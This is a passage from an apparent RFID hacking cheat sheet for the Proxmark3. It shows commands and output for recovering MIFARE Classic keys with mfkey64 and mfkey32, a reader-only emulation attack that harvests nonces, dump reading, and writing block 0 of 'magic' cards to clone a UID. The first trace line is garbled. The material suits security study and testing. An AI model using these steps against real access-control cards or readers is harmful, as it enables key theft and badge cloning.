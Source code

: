 ```powershell
551188 |   555860 | Tag |d6! 53!  7c 57!                                                  |     | TAG RESPONSE
UID: 4dxxxxxxd3
TAG CHALLENGE: 617a6618
READER CHALLENGE: 50878eab
READER RESPONSE: 3b495a1b
TAG RESPONSE: d6537c57

# crapto1gui or mfkey
cd tools/mfkey
make
./mfkey64
./mfkey64 xxxxxxxx 3b45a45a 7ddb6646 142fc1b9 9195fb3f
```

### Reader only attack

Emulate a MIFARE Classic with a DEADBEEF UID.

```powershell
proxmark3> hf mf sim u deadbeef n 1 x
mf 1k sim uid: de ad be ef , numreads:0, flags:18 (0x12)
#db# Collected two pairs of AR/NR which can be used to extract keyA from reader for sector 1:
#db# ../tools/mfkey/mfkey32 deadbeef 0102xxxx 4d9axxxx 87e7xxxx 06d2xxxx b4a0xxxx
#db# Emulator stopped. Tracing: 1 trace length: 253
#db# 4B UID: deadbeef
```

### Read a Mifare Dump

```powershell
pip install bitstring
git clone https://github.com/zhovner/mfdread
mfdread.py ./dump.mfd
```

## HF - Mifare Classic 4k

### Chinese Magic Mifare Classic 4K

Block 0 is writable through normal Mifare Classic commands, i.e. there is not special "unlocked" read/write like in "magic Mifare 1k" version.

Writing block 0 with Proxmark, UID `01020304`, using key A being `FFFFFFFFFFFF`:

```powershell
hf mf wrbl 0 a FFFFFFFFFFFF 01020304040000000000000000000000
```

Again, watch out to have correct BCC and avoid Cascading Tag (0x88) as first byte of UID, or you may make the card unselectable (i.e. brick it).



## References

